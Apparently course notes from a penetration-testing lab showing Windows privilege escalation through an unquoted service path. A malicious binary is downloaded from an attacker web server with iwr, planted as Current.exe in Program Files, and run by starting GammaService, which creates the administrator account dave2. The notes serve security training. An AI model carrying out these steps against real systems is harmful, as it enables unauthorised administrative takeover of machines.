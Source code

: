 + Above shows that _`BUILTIN\Users`_ has Write (w) permissions on the path **`C:\Program Files\Enterprise Apps`**. Our goal is now to place a malicious file named **`Current.exe`** in **`C:\Program Files\Enterprise Apps\`**

We can reuse the **adduser.exe** binary by compiling the C code from the section "Service Binary Hijacking".
+ On Kali, we start a Python3 web server in the directory of the executable file in order to serve it 

Once the web server is running, we can download **adduser.exe** on the target machine as _steve_
+ To save the file with the correct name for our privilege escalation attack, we enter **`Current.exe`** as argument for **`-Outfile`**
+ After the file is downloaded, we copy it to **`C:\Program Files\Enterprise Apps\`**.
```
PS C:\Users\steve> iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

Now, everything is ready for us to start the service, which should execute **Current.exe** instead of the original service binary **GammaServ.exe**
+ For this, we use `Start-Service` with **GammaService** as argument
+ We can use `net user` to check if _dave2_ was created and `net localgroup administrators` to confirm that _dave2_ was added to the local _Administrators_ group
```
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
    
PS C:\Users\steve> net user

Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```
+ Above shows that the Start-Service command displayed an error that Windows cannot start the service
+ The error stems from the fact that our cross-compiled C code does not accept the parameters that are a leftover of the original service binary path
+ However, `Current.exe` was still executed and _dave2_ was created as a member of the local _Administrators_ group


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir